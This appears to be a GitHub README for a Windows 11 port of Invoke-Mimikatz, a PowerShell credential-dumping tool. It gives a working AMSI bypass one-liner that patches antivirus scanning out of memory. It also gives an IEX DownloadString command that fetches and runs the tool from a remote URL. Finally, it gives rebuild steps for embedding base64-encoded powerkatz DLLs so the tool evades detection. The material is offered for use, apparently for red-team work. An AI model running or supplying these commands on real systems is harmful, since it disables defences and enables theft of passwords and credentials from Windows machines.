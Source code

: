 # Invoke-Mimikatz for Windows 11
Updated version of Invoke-Mimikatz that runs on Windows 11.

## How to use

1. Bypass AMSI `$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
`
2. Load Invoke-Mimikatz `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tartofour/Invoke-Mimikatz/main/Invoke-Mimikatz.ps1')`

3. Run Invoke-Mimikatz `Invoke-Mimikatz`

## How to update the script

1. Download Invoke-Mimikatz.ps1 from the PowerShellMafia repo (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).
2. Change the following line:
`$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')` to `$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);`

3. Clone the mimikatz repo from ebalo55 (https://github.com/ebalo55/mimikatz/tree/main).
4. Open the project in VSCode.
5. Select "Second_Release_PowerShell" and build the project.
6. Base64 encode `Win32/powerkatz.dll` and `x64/powerkatz.dll`.
7. Replace the content of the `PEBytes64` and `PEBytes32` variables with base64 encoded payloads.

## References
- https://github.com/mitre/caldera/issues/38
- https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/ 

